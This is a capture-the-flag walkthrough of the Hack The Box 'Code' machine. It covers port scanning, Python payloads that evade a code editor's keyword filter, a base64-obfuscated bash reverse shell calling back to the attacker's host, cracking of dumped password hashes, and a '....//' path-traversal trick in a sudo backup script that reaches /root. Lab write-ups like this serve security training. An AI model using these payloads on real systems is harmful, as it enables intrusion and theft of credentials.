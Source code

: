 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

We can see that port 22 is open, which is the SSH service.

Now we will scan for all tcp, open and filtered, ports

```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home'))
#print(oas.listdir('/ro'+'ot'))
```

```
['app.py', 'static', 'templates', '__pycache__', 'instance']
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt']
['martin', 'app-production']
```

Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```

```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app']
```

We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:

```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```

```
user flag value
```

## Machine Access

We can access the machine using a reverse shell. We can use the following Python code

```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```

This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can access the web page source code at app.py and we find the database access:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database.

```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```

```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```

We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:

```
development:development
martin:nafeelswordsmaster
test:test12345
```

This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.

```bash
ssh martin@10.10.11.62
```

## Root Exploitation

Once we have access to the user `martin`, we can check what sudo privileges the user has.

```bash
sudo -l
```

```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file

```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```

Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`.

And then run the script as root:

```bash
sudo /usr/bin/backy.sh /home/martin/task.json
```

It will create a backup of the `/root` directory the `/home/martin/test/`. We can extract the backup and find the root flag:

```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2
cat root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.
